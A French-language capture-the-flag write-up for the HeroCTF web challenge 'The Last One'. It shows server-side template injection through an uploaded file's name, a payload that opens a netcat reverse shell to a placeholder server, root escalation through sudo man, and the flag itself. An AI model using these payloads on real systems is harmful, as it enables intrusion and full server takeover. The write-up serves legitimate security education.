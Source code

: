 # The Last One

### Catégorie

Web

### Description

Un de vos camarades à mis en place une plateforme d'upload pour vérifier vos devoirs..
Bizarrement, ses notes ont largement augmentées depuis qu'il l'a mis en place..

Prenez la main sur son serveur en lisant le fichier /flag.txt !

Accès au challenge

Rappel : Le bruteforce n'est pas autorisé

Format : Hero{flag}

### Auteur 

Worty

### Solution

Quand on arrive sur la page, on nous propose juste d'upload un fichier rien de plus.<br/>
Le serveur nous répond simple : "Your file test.docx will be review soon, thanks!"

Si l'on intercepte les headers, on remarque ceci lorsque le serveur répond : "Server: Werkzeug/1.0.1 Python/3.5.2"<br/>
Le serveur étant en python, on pense directement à une faille de type Server Side Template Injection, mais ou??<br/>
La réponse est simple, dans le nom du fichier !

Interceptons cette fois-ci la requête avec burp suite pour directement modifier le nom du fichier en {{7*7}}<br/>
Le serveur nous répond : "Your file 49 will be review soon, thanks!", il est donc vulnérable.

Je vous épargne la recherche de la classe subprocess.Popen qui est longue et fastidieuse, au final, la payload pour exécuter du code est :<br/>
{{().__class__.__mro__[1].__subclasses__()[94]('nc <YOUR_SERVER> <PORT> -e /bin/bash',shell=True,stdout=-1).communicate()}}<br/>
Super, allons lire le fichier /flag.txt! Et là, c'est le drame, le fichier est owned par root et nous n'avons pas les droits de lecture..

Executons la commande "sudo -l" pour voir quelle potentielle commande nous aurons le droit d'exécuter sans mot de passe, bim, la commande man peut etre lancée en tant que root sans mot de passe!<br/>
Payload : sudo -u root man man

Une fois dans le man, on entre simplement !/bin/bash, et nous obtenons un shell root!

### Flag

Hero{th4nk_y0u_f0r_play1ng_HeroCTF_!!}